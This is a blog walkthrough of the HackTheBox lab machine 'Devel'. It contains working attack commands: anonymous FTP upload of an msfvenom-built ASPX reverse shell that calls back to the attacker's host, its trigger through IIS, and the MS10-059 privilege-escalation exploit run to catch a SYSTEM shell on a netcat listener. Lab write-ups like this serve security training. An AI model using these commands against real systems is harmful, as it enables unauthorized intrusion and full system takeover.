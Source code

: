 ```yaml
---
layout: post
title: "HTB-Devel"
date: 2020-02-16 12:13:55 +0000
categories: HTB-Walkthrough
---
```


![devel](/assets/img/devel.png)

Hi, lets get stuck in...

Im settling on a good 'less intrusive' nmap command to start enumeration of a machine with...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.5 |tee -a dev.txt`

Often depending on the results, ill run `-sC` or `--script=vuln` either on specific ports, or the default range.

{% highlight ruby %}
Nmap scan report for 10.10.10.5
Host is up (0.092s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}

In this case, its not really necessary, we can just manually test the target's ftp port to see if it will allow anonymous login.

`ftp 10.10.10.5` then use the username `anonymous` with any password like `aosdidhf`, and we got access.

A test to upload random text.txt file is successful, so we can potentially upload a reverse-shell of some sort to get a command shell on the target.

############################

The website on port 80 displays the Welcome page we found in the ftp directory...
The target is running an aspnet client, which means if we upload an evil.aspx file, we can browse to it on port 80 to trigger it.

So lets first use MSFvenom to craft an evil.aspx reverse-shell file...
`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.19 lport=443 -f aspx -o evil.aspx`

Next we `put` the file onto the target via the ftp service.

{% highlight ruby %}
root@kali:~/HTB/prep/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 
{% endhighlight %}

in main ftp (root directory) `put evil.aspx`


Now just browse to `http://10.10.10.5/evil.aspx` to execute.

##################################

So we got a windows cli shell, and we need to escalate our privilages to get ntauthority/system to enable us to read root.txt in the Administrator's Desktop.

Now's a handy time to get familiarized with `windows-exploit-suggester.py`. 

First we need to do is run the command `systeminfo` then copy'n'paste the results onto our kali machine
into a text-file, in this case called sysinfo.txt.

{% highlight ruby %}
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          29/1/2020, 5:13:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 720 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.546 MB
Virtual Memory: In Use:    501 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
{% endhighlight %} 

Read the python program first for instructions ...

{% highlight ruby %}
# USAGE
# 
# update the database
#
# $ ./windows-exploit-suggester.py --update
# [*] initiating...
# [*] successfully requested base url
# [*] scraped ms download url
# [+] writing to file 2014-06-06-mssb.xlsx
# [*] done
#
# install dependencies
#
# (install python-xlrd, $ pip install xlrd --upgrade)
#
# feed it "systeminfo" input, and point it to the microsoft database
#
# $ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
{% endhighlight %}

The result of following these instructions, is a list of potential methods of privilage escalation.

In this case we chose ms10-059 (chimichurri.exe)

Upload it again via ftp. Then transfer it to a place we can execute it.
I often create a directory in C: to work from (which I can remove later)
`mkdir c:\boo`

Before we execute the evil.exe, lets get a listener running on kali to catch the shell...
`nc -nlvp 999`

Then on the target run...
`c:\boo\evil.exe 10.10.14.19 999`


{% highlight ruby %}
root@kali:~/HTB/retired/devel# nc -nlvp 999
listening on [any] 999 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\boo>whoami
whoami
nt authority\system
{% endhighlight %}

From here it is trivial to navigate to the user and Admin Desktops to get the user.txt.txt and root.txt.txt files.
read them with the `type` command.
eg.`type root.txt.txt`


The scenario is a simple one, but still encountered 'in the wild', and the widows-exploit-suggester.py' is definately a handy tool to have in your armoury.

####################################################################

